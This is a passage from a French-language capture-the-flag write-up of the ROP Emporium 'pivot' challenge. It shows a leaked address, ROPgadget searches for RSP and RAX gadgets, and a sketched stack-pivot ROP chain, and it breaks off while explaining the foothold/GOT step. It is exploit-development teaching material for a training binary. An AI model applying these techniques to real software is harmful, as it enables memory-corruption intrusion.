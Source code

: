 ### stack pivot 
Maintenant il nous faut pivoter, fort heureusement le binaire nous envoie une fuite d'adresse à chaque lancement : 

~~~bash
root@kali:~/rop_emporium/pivot# ./pivot
pivot by ROP Emporium
64bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0x7f356e17ef10
Send your second chain now and it will land there
~~~

Nous allons pouvoir l'appeler par ce biais avec des gadgets modifiant `RSP` :

~~~bash
root@kali:~/rop_emporium/pivot# ROPgadget --binary pivot | grep "rsp" --color
0x0000000000400aff : add byte ptr [rax - 0x3d], bl ; xchg rax, rsp ; ret
0x00000000004007cb : add byte ptr [rax], al ; add rsp, 8 ; ret
0x00000000004007cd : add rsp, 8 ; ret
0x0000000000400b5a : call qword ptr [rsp + rbx*8]
0x0000000000400b02 : xchg rax, rsp ; ret
~~~

Nous utiliserons ici `0x0000000000400b02 : xchg rax, rsp ; ret`. Mais nous devons avant toutes choses trouver un moyen de modifier `RAX`: 

~~~bash
root@kali:~/rop_emporium/pivot# ROPgadget --binary pivot | grep "rax" --color
0x0000000000400afb : nop dword ptr [rax + rax] ; pop rax ; ret
0x00000000004008f8 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x0000000000400b78 : nop dword ptr [rax + rax] ; ret
0x0000000000400945 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400afa : nop word ptr [rax + rax] ; pop rax ; ret
0x0000000000400b00 : pop rax ; ret
0x00000000004008ef : pop rbp ; mov edi, 0x602078 ; jmp rax
~~~

Le `0x0000000000400b00 : pop rax ; ret` fait l'affaire. 

Voici donc une idée de la rop chain de pivot : 

~~~bash
40 * A 
pop rax ; ret
[Adresse fuitée par le programme]
xchg rax, rsp ; ret
~~~

Nous avons de quoi pivoter !

### call foothold function 
Étant donné que la fonction `foothold` n'est pas appelé dans le binaire, elle n'est pas inscrite dans la GOT. Il faut donc l'appeler pour que la GOT soit peuplé. Elle nous servira ensuite pour appeler `ret2win`a l'aide de l'offset :
